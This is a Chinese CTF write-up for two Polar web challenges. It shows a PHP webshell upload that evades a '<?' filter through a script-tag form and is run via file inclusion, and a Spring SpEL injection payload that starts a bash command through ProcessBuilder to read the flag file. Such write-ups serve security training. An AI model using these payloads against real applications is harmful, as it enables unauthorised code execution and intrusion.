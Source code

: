 [Polar ctf WEB] 困难区 wp 2
===

## [Polar WEB] 自由的文件上传系统

### 题解

打开是一个文件上传页面, 尝试传个马上去, 发现后台会自动把 `<?` 替换成 `<!` 导致不能成功, 此时观察一下网页源代码, 发现 url 有一点奇怪, 扫一下目录:

![11-1.png](11-1.png)

扫出了 git 源码泄露问题, 这里用 `dumpall` 工具恢复源码, 用 pip 装一个就行; 

很可惜扫完好像没什么东西在里面; 再看一下 url, 可能有文件包含, 可惜似乎禁了伪协议, 也没什么头绪, 那只能再试试上传点了:

```phtml
<script language="php">system("ls");</script>
```

![11-2.png](11-2.png)

直接访问不显示结果, 试试刚刚的文件包含:

![11-3.png](11-3.png)

到这里再传个码进去就行了:

![11-4.png](11-4.png)

## [Polar WEB] ezjava

### 题解 (SpEL 注入)

题目给了个 jar 包, 添加到 IDEA 库里反编译:

![12-1.png](12-1.png)

注意看这里, 有一处可疑的注入点:

![12-2.png](12-2.png)

```java
public String spelVul(String ex) {
    ExpressionParser parser = new SpelExpressionParser();
    EvaluationContext evaluationContext = new StandardEvaluationContext();
    String result = parser.parseExpression(ex).getValue(evaluationContext).toString();
    System.out.println(result);
    return result;
}
```

`SpelExpressionParser` 和 `EvaluationContext` 是典型的 Spring 自带类, 前者将字符串形式的 SpEL (Spring Expression Language) 表达式解析成一个可执行的 Expression 对象, 保存求值的上下文变量; 通俗的来说, 定义了解析表达式能做什么, 能看到什么;

这个注入其实和 Python Flask 中是 SSTI 注入有一些调用链上的相似之处;

此处的 `getValue` 方法会对表达式求值, 因此是执行点;

直接传试试:

```
(GET)
SPEL/vul?ex=2-1
```

执行成功了:

![12-3.png](12-3.png)

payload:

```java
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder(new String[]{"bash","-c","cat /app/flag*"}).start().getInputStream(), "gbk")).readLine()
```

转 URL 编码后传入 ex 即可;

![12-4.png](12-4.png)

非常经典的链式调用;

